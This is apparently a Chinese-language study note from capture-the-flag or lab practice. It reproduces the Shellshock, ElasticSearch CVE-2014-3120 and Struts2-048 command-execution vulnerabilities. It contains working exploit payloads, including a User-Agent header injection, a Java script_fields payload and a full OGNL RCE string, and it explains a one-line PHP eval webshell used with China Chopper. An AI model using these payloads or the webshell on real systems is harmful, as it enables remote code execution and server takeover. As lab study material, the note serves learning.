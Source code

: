### 靶场漏洞

##### bash 命令执行 （CVE-2014-6271）
目前的Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。 影响版本：GNU Bash <= 4.3
利用过程
有两个页面http://ip:port/victim.cgi和http://ip:port/safe.cgi
访问 http://ip:port/victim.cgi，通过Burp截包修改 HTTP 请求头中User-Agent字段：
User-Agent: () { :;};echo `/bin/ls ls /tmp`" #列出tmp目录下所有文件
/bin/ls 事调用bin目录下ls事件  获取flag

ElasticSearch（CVE-2014-3120）命令执行漏洞复现
访问靶场环境，启动后可在浏览器页面成功访问
漏洞复现
用burp抓数据包
利用该漏洞之前，es至少需要存在一条数据，通过以下请求包创建数据：

1、利用POST方式提交数据
2、文件名字任意
3、浏览器的原生 form 表单，如果不设置 enctype 属性，那么其中Content-Type字段最终会以 application/x-www-form-urlencoded 方式提交数据。
而对于"application/x-www-form-urlencoded"，其参数组织形式是"键值对"。

三、利用命令执行漏洞，将一段java代码放进去
java代码：{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {}
        }      }    },
    "script_fields": {
        "command": {
            "script":"import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"ls /tmp\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }    }    }
        
其中：exec(\"ls /tmp\") 中是执行命令内容
struts2-048 远程代码执行
访问漏洞存在的路径 /integration/saveGangster.action
构建命令执行的pyload,执行命令为id
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#q=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ls /tmp').getInputStream())).(#q)}    

其中：exec('ls /tmp') 中是执行命令内容,可查看tmp下存在的flag


### 线上靶场

通关线上靶场大多数S2和weblogic发序列化漏洞，可通过java反序列化漏洞利用工具进行测试，
瓶颈：之前不了解原因是因为，对文件存在的目录不了解，使用 pwd 命令 进行查看路径，发现都不是在根目录，通常靶场flag存在根目录下，tmp文件夹中，通关cd / 命令可以到达根目录下，之前使用命令执行时，用的都是相对路径，没有使用绝对路径进行执行，所以导致命令执行失败
问题：命令执行是把 "cd / | ls" 和 "ls | cd /"先后执行顺序弄反，导致错误的命令执行



### 一句话木马原理

一句话木马 webshell 到web服务器目录 接着权获取系统权限

基本原理利用文件上传漏洞上传webshell

 <?php @eval($_POST['pass']);?> 

--- <?php ?> --- php文件要求格式

--- @ 表示后面即使执行错误，也不报错

--- eval() 函数表示把括号内的全当代码执行

--- $_POST['pass`']`表示从页面中获得pass这个参数值。

​	php 超全局变量：`$_GET`、`$_POST`就是其中之一

​    `		$_POST['pass']`; 的意思就是pass这个变量，用post的方法接收。

​					就是来收集 请求方法为post 的名字为pass表单里面的值

​			 ---  $_POST数组获取使用POST方式提交的表单数据

​                form标签的指定该属性："method="post"。

​					就是获取表单名为pass中的表单内容

  	 比如 eval( "echo 'a' ") == echo 'a' 

​		 <?php @eval($_POST['pass']);?>   

​			首先用post请求接受变量pass  若pass = echo 'a'  

​			代码就变成了 <?php eval("echo 'a';"); ?>

所以我们可以简单的想 中国菜刀发的这么一个包 包的代码是打开指定目录的句柄，然后进行循环扫描，并附带上权限、时间、大小、日期 这个包我这里用package来代替 所以在操作的时候其实就是 key = package 然后通过eval函数执行package的php代码 从而最终达成目的
中国菜刀 发一个包，包的代码是打开目录的
